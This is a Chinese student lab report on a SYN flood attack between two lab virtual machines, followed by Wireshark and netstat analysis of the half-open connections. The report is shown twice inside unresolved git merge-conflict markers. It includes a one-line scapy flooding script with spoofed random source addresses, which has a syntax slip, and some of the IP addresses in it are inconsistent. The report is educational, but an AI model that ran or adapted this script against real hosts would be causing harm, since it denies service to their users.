






<<<<<<< HEAD
# <center>网络与信息安全课内实验-对DDos攻击的理解</center>

## 1. 实验目的

1. 熟悉 Linux 系统,Wireshark 软件基本操作。
2. SYN 洪泛攻击的实现与观察

## 2. 实验平台

1. Server：ubuntu虚拟机 18.04.6 LTS，安装Apache24
2. Attacker：ubuntu虚拟机 22.04.3，与server处于同一网段（局域网）

## 3. 实验步骤

1. **Server：安装Apache24**

    ```shell
    sudo apt-get install apache2
    ```

    安装成功后访问`127.0.0.1`,出现如下界面，说明apache安装成功
    

2. **Attacker：安装scapy**

    ```shell
    sudo python3 -m pip install scapy
    ```

    安装后运行

    ```shell
    scapy
    ```

    出现如下界面，说明scapy安装成功
    

3. **获取server虚拟机的ip地址**

    ```shell
    ifconfig
    ```

    得到了server的ip地址为`192.168.153.133`
    

    在Attacker浏览器中访问`192.168.153.133`，出现如下界面，说明访问成功
    

4. **Attacker：编写攻击脚本**

    编写攻击脚本`SYN_flood.py`:

    ```python
    from scapy.all import *

    send(IP(src=RandIP(),dst='192.168.153.133')/fuzz(TCP=(dport=80),flags=0x002),loop=1)
    ```

    ==代码解析==
    1. send()函数：发送数据包，包含两个参数，第一个参数为要发送的数据包，第二个参数为发送次数
    2. IP()函数：构造IP数据包，包含两个参数，第一个参数为源IP地址，第二个参数为目的IP地址
    3. RandIP()函数：随机生成一个IP地址
    4. fuzz()函数：构造TCP数据包，包含两个参数，第一个参数为TCP数据包的目的端口号，第二个参数为TCP数据包的标志位
    5. port=80：将TCP数据包的目的端口号设置为80，即==HTTP协议的端口号==
    6. flags=0x002：将TCP数据包的标志位设置为SYN，即SYN洪泛攻击，发送大量的==连接建立请求 (SYN) 数据包==

5. **在Server端运行Wireshark**
    运行Wireshark需要root权限，因此使用sudo命令运行

    ```shell
    sudo wireshark
    ```

    为了筛选我们发送的ddos攻击，在Wireshark中设置过滤器为`tcp.flags==0x002`，即只显示TCP标志位为SYN的数据包
    
    解析：
    1. 观察No列和time列，可以看到在100s左右发送了239868个SYN数据包，这些数据包都是Attacker发送的,说明Attacker在短时间内发送了大量的SYN数据包，体现了DDos攻击的特点。
    2. 观察Destination列，可以看到所有的数据包都是发送给了Server`192.158.153.133`，说明Attacker的攻击目标是Server。
    3. 观察Source列，可以看到所有的数据包是来自不同的IP地址，这个是由于我们的攻击脚本中使用了RandIP()函数，随机生成了大量的IP地址。
    4. 观察Info列，可以看到所有的数据包都是TCP协议，这是由于我们的攻击脚本中使用了fuzz()函数，构造了大量的TCP数据包。

6. **选取一个TCP协议数据包具体分析**

    ```console
    Frame 288346: 66 bytes on wire (528 bits), 66 bytes captured (528 bits) on interface 0
    Ethernet II, Src: Vmware_c4:77:d8 (00:0c:29:c4:77:d8), Dst: Vmware_79:38:f0 (00:0c:29:79:38:f0)
    Internet Protocol Version 4, Src: 211.122.213.201, Dst: 192.168.153.133
    Transmission Control Protocol, Src Port: 4737, Dst Port: 80, Seq: 0, Len: 0
    Source Port: 4737
    Destination Port: 80
    [Stream index: 114506]
    [TCP Segment Len: 0]
    Sequence number: 0    (relative sequence number)
    [Next sequence number: 0    (relative sequence number)]
    Acknowledgment number: 2893260800
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x002 (SYN)
    Window size value: 43959
    [Calculated window size: 43959]
    Checksum: 0xd89d [unverified]
    [Checksum Status: Unverified]
    Urgent pointer: 55034
    Options: (12 bytes), SACK, Unknown (0x19), Unknown (0x0f), Unknown (0x0f), SACK, End of Option List (EOL)
    [Timestamps]
    ```

    解析：
    1. `Frame 288346`: 这是捕获的数据包的帧序号，第 288346 个数据包。

    2. `Ethernet II`: 这部分指示了数据包的以太网帧头信息，包括源地址和目标地址。

    3. `Src: Vmware_c4:77:d8 (00:0c:29:c4:77:d8)`: 这是以太网帧的源地址。

    4. `Dst: Vmware_79:38:f0 (00:0c:29:79:38:f0)`: 这是以太网帧的目标地址。

    5. `Internet Protocol Version 4`: 这部分指示了数据包的 IP 头信息，包括源 IP 地址和目标 IP 地址。

    6. `Src: 211.122.213.201`: 这是数据包的源 IP 地址。

    7. `Dst: 192.168.153.133`: 这是数据包的目标 IP 地址。

    8. `Transmission Control Protocol`: 这部分包括了数据包的 TCP 头信息，指示了 TCP 连接的细节。

    9. `Src Port: 4737`: 这是数据包的源端口。

    10. `Dst Port: 80`: 这是数据包的目标端口，通常用于 HTTP。

    11. `Flags: 0x002 (SYN)`: 这是 TCP 头的标志，表示这是一个连接建立请求 (SYN) 数据包。

    12. `Window size value: 43959`: 表示 TCP 窗口大小，用于流量控制。

    13. `Sequence number: 0:` 表示这个数据包的序列号。

    14. `Acknowledgment number: 2893260800`: 表示确认号，即期望接收的下一个序列号。

    15. `Options`: 这部分包括 TCP 选项，如时间戳等。

7. **在server端运行**

    ```shell
    netstat -an
    ```

    
    解析：
    1. 观察proto列，全为tcp6，说明server端监听的是TCP协议的端口。
    2. 观察recv-Q列和send-Q列，可以看到有大量的连接处于等待状态，这是由于Attacker发送了大量的SYN数据包，但是没有发送ACK数据包，导致server端的连接处于等待状态。
    3. 观察local address列，都为`ubuntu:http`，说明server端监听的是http协议的端口。
    4. 观察foreign address列，为随机的
    5. 观察state列，都为`SYN_RECV`，说明server端处于等待连接状态。

## 4. 实验总结

### 1. 实验过程中遇到的问题

1. 未使用过Wireshark，不知道如何使用，需要更多时间去学习Wireshark的使用。
2. 安装scapy时出现了错误。改用`sudo python3 -m pip install scapy`命令安装成功。

### 2. 实验收获

1. 学会了使用Wireshark抓包，分析数据包。
2. 与目前在学的计算机网络知识相结合，对TCP协议的连接建立过程有了更深的理解。对TCP报头的各个字段有了更深的理解。
=======
# <center>网络与信息安全课内实验-对DDos攻击的理解</center>

## 1. 实验目的

1. 熟悉 Linux 系统,Wireshark 软件基本操作。
2. SYN 洪泛攻击的实现与观察

## 2. 实验平台

1. Server：ubuntu虚拟机 18.04.6 LTS，安装Apache24
2. Attacker：ubuntu虚拟机 22.04.3，与server处于同一网段（局域网）

## 3. 实验步骤

1. **Server：安装Apache24**

    ```shell
    sudo apt-get install apache2
    ```

    安装成功后访问`127.0.0.1`,出现如下界面，说明apache安装成功
    

2. **Attacker：安装scapy**

    ```shell
    sudo python3 -m pip install scapy
    ```

    安装后运行

    ```shell
    scapy
    ```

    出现如下界面，说明scapy安装成功
    

3. **获取server虚拟机的ip地址**

    ```shell
    ifconfig
    ```

    得到了server的ip地址为`192.168.153.133`
    

    在Attacker浏览器中访问`192.168.153.133`，出现如下界面，说明访问成功
    

4. **Attacker：编写攻击脚本**

    编写攻击脚本`SYN_flood.py`:

    ```python
    from scapy.all import *

    send(IP(src=RandIP(),dst='192.168.153.133')/fuzz(TCP=(dport=80),flags=0x002),loop=1)
    ```

    ==代码解析==
    1. send()函数：发送数据包，包含两个参数，第一个参数为要发送的数据包，第二个参数为发送次数
    2. IP()函数：构造IP数据包，包含两个参数，第一个参数为源IP地址，第二个参数为目的IP地址
    3. RandIP()函数：随机生成一个IP地址
    4. fuzz()函数：构造TCP数据包，包含两个参数，第一个参数为TCP数据包的目的端口号，第二个参数为TCP数据包的标志位
    5. port=80：将TCP数据包的目的端口号设置为80，即==HTTP协议的端口号==
    6. flags=0x002：将TCP数据包的标志位设置为SYN，即SYN洪泛攻击，发送大量的==连接建立请求 (SYN) 数据包==

5. **在Server端运行Wireshark**
    运行Wireshark需要root权限，因此使用sudo命令运行

    ```shell
    sudo wireshark
    ```

    为了筛选我们发送的ddos攻击，在Wireshark中设置过滤器为`tcp.flags==0x002`，即只显示TCP标志位为SYN的数据包
    
    解析：
    1. 观察No列和time列，可以看到在100s左右发送了239868个SYN数据包，这些数据包都是Attacker发送的,说明Attacker在短时间内发送了大量的SYN数据包，体现了DDos攻击的特点。
    2. 观察Destination列，可以看到所有的数据包都是发送给了Server`192.158.153.133`，说明Attacker的攻击目标是Server。
    3. 观察Source列，可以看到所有的数据包是来自不同的IP地址，这个是由于我们的攻击脚本中使用了RandIP()函数，随机生成了大量的IP地址。
    4. 观察Info列，可以看到所有的数据包都是TCP协议，这是由于我们的攻击脚本中使用了fuzz()函数，构造了大量的TCP数据包。

6. **选取一个TCP协议数据包具体分析**

    ```console
    Frame 288346: 66 bytes on wire (528 bits), 66 bytes captured (528 bits) on interface 0
    Ethernet II, Src: Vmware_c4:77:d8 (00:0c:29:c4:77:d8), Dst: Vmware_79:38:f0 (00:0c:29:79:38:f0)
    Internet Protocol Version 4, Src: 211.122.213.201, Dst: 192.168.153.133
    Transmission Control Protocol, Src Port: 4737, Dst Port: 80, Seq: 0, Len: 0
    Source Port: 4737
    Destination Port: 80
    [Stream index: 114506]
    [TCP Segment Len: 0]
    Sequence number: 0    (relative sequence number)
    [Next sequence number: 0    (relative sequence number)]
    Acknowledgment number: 2893260800
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x002 (SYN)
    Window size value: 43959
    [Calculated window size: 43959]
    Checksum: 0xd89d [unverified]
    [Checksum Status: Unverified]
    Urgent pointer: 55034
    Options: (12 bytes), SACK, Unknown (0x19), Unknown (0x0f), Unknown (0x0f), SACK, End of Option List (EOL)
    [Timestamps]
    ```

    解析：
    1. `Frame 288346`: 这是捕获的数据包的帧序号，第 288346 个数据包。

    2. `Ethernet II`: 这部分指示了数据包的以太网帧头信息，包括源地址和目标地址。

    3. `Src: Vmware_c4:77:d8 (00:0c:29:c4:77:d8)`: 这是以太网帧的源地址。

    4. `Dst: Vmware_79:38:f0 (00:0c:29:79:38:f0)`: 这是以太网帧的目标地址。

    5. `Internet Protocol Version 4`: 这部分指示了数据包的 IP 头信息，包括源 IP 地址和目标 IP 地址。

    6. `Src: 211.122.213.201`: 这是数据包的源 IP 地址。

    7. `Dst: 192.168.153.133`: 这是数据包的目标 IP 地址。

    8. `Transmission Control Protocol`: 这部分包括了数据包的 TCP 头信息，指示了 TCP 连接的细节。

    9. `Src Port: 4737`: 这是数据包的源端口。

    10. `Dst Port: 80`: 这是数据包的目标端口，通常用于 HTTP。

    11. `Flags: 0x002 (SYN)`: 这是 TCP 头的标志，表示这是一个连接建立请求 (SYN) 数据包。

    12. `Window size value: 43959`: 表示 TCP 窗口大小，用于流量控制。

    13. `Sequence number: 0:` 表示这个数据包的序列号。

    14. `Acknowledgment number: 2893260800`: 表示确认号，即期望接收的下一个序列号。

    15. `Options`: 这部分包括 TCP 选项，如时间戳等。

7. **在server端运行**

    ```shell
    netstat -an
    ```

    
    解析：
    1. 观察proto列，全为tcp6，说明server端监听的是TCP协议的端口。
    2. 观察recv-Q列和send-Q列，可以看到有大量的连接处于等待状态，这是由于Attacker发送了大量的SYN数据包，但是没有发送ACK数据包，导致server端的连接处于等待状态。
    3. 观察local address列，都为`ubuntu:http`，说明server端监听的是http协议的端口。
    4. 观察foreign address列，为随机的
    5. 观察state列，都为`SYN_RECV`，说明server端处于等待连接状态。

## 4. 实验总结

### 1. 实验过程中遇到的问题

1. 未使用过Wireshark，不知道如何使用，需要更多时间去学习Wireshark的使用。
2. 安装scapy时出现了错误。改用`sudo python3 -m pip install scapy`命令安装成功。

### 2. 实验收获

1. 学会了使用Wireshark抓包，分析数据包。
2. 与目前在学的计算机网络知识相结合，对TCP协议的连接建立过程有了更深的理解。对TCP报头的各个字段有了更深的理解。
>>>>>>> master
